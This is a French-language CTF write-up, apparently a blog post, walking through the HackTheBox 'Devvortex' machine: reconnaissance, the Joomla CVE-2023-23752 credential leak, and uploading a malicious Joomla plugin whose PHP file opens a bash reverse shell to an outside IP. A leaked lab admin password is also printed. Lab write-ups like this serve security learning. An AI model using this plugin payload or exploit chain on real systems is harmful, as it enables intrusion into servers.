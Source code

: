 ```yaml
---
layout: post
title: Devvortex (HTB)
categories: markdown
summary: "Dans ce CTF HackTheBox, nous exploitons une vulnérabilité dans Joomla (CVE-2023-23752) pour accéder à des informations sensibles, puis utilisons une élévation de privilèges via apport-cli (CVE-2023-1326)."
tags: [CTF, Joomla, CVE-2023-23752, CVE-2023-1326, HackTheBox, Cybersecurity]
date: 2023-09-20
---
```


## Introduction

Dans ce challenge de HackTheBox, nous allons d'abord exploiter une vulnérabilité dans Joomla liée à la divulgation de données sensibles (CVE-2023-23752), puis utiliser une élévation de privilèges via apport-cli (CVE-2023-1326) pour obtenir un accès root.

---

## Vue d'ensemble du service

Pour scanner la machine `10.10.11.242`, nous utilisons rustscan :

```bash
$ wget https://github.com/RustScan/RustScan/files/9473239/rustscan_2.1.0_both.zip
$ unzip rustscan_2.1.0_both.zip
$ dpkg -i rustscan_2.1.0_amd64.deb
$ rustscan --ulimit=5000 --range=1-65535 -a 10.10.11.242 -- -A -sC
```

Le résultat du scan nous montre les services ouverts :

| PORT    | ÉTAT     | SERVICE | RAISON           | VERSION                                    |
|---------|----------|---------|------------------|--------------------------------------------|
| 22/tcp  | ouvert   | ssh     | syn-ack ttl 63   | OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu)    |
| 80/tcp  | ouvert   | http    | syn-ack ttl 63   | nginx 1.18.0 (Ubuntu)                     |

---

## Service Web

Accéder au service web sur le port 80 nous redirige vers le domaine `devvortex.htb`, donc nous ajoutons cet hôte au fichier `/etc/hosts` :

```bash
$ nano /etc/hosts
10.10.11.242 devvortex.htb
```

Ensuite, nous recherchons les sous-domaines à l'aide de gobuster :

```bash
$ gobuster vhost -u http://devvortex.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 20 -k
```

Nous trouvons le sous-domaine `dev.devvortex.htb`, que nous ajoutons également au fichier `/etc/hosts` :

```bash
$ nano /etc/hosts
10.10.11.242 devvortex.htb dev.devvortex.htb
```

Nous recherchons ensuite des répertoires intéressants avec wfuzz :

```bash
$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --sc 202,204,301,302,307,403 http://dev.devvortex.htb/FUZZ
```

Nous identifions plusieurs répertoires intéressants, dont "administrator", ce qui suggère l'utilisation de Joomla.

---

## Identification de la vulnérabilité Joomla

Nous utilisons `joomscan` pour vérifier la version de Joomla et découvrons que la version 4.2.6 est vulnérable à **CVE-2023-23752** :

```bash
$ joomscan --url http://dev.devvortex.htb
```

Nous pouvons exploiter cette vulnérabilité pour divulguer des informations sensibles, telles que les identifiants d'administration :

```bash
$ git clone https://github.com/Acceis/exploit-CVE-2023-23752.git && cd exploit-CVE-2023-23752
$ gem install httpx docopt paint
$ ruby exploit.rb -h
```

En exécutant l'exploit, nous obtenons les identifiants pour l'admin :

```bash
lewis:P4ntherg0t1n5r3c0n##.
```

Nous nous connectons à l'interface d'administration de Joomla.

---

## Configuration du Shell Inverse

Nous créons les fichiers nécessaires pour installer un plugin contenant un shell inverse.

**Fichier `shell.xml`** :

```xml
<?xml version="1.0" encoding="utf-8"?>
<extension version="4.0" type="plugin" group="content">
 <name>plg_content_shell</name>
 <author>1</author>
 <creationDate>December 28, 2021</creationDate>
 <copyright>Free</copyright>
 <authorEmail>1@1.com</authorEmail>
 <authorUrl>http://1.com</authorUrl>
 <version>1.0</version>
 <description>shell</description>
 <files>
  <filename plugin="shell">shell.php</filename>
  <filename>index.html</filename>
 </files>
</extension>
```

**Fichier `shell.php`** :

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.36/4444 0>&1'");
defined('_JEXEC') or die;
class plgContentRevShell extends JPlugin
{
  public function onContentAfterTitle($context, &$article, &$params, $limitstart)
    {
      return "<p>Boom!</p>";
    }
}
?>
```

Nous créons également un fichier `index.html` vide.

Ensuite, nous zippons ces trois fichiers :

```bash
$ touch index.html
$ zip revshell.zip shell.xml shell.php index.html
```

Nous téléchargeons le fichier zip via l'interface d'installation de Joomla à l'adresse suivante :

```
http://dev.devvortex.htb/administrator/index.php?option=com_installer&view=install
```

Une fois le plugin installé et activé, nous obtenons notre shell inverse en écoutant sur le port 4444 :

```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.36] from (UNKNOWN) [10.10.11.242] 36564
bash: cannot set terminal process group (854): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/administrator$ id
```

---

## Conclusion

Nous avons exploité la vulnérabilité **CVE-2023-23752** pour obtenir des informations sensibles et nous avons configuré un shell inverse pour accéder à la machine. Par la suite, l'exploitation d'une élévation de privilèges via **CVE-2023-1326** nous permettra de prendre le contrôle total de la machine.
````

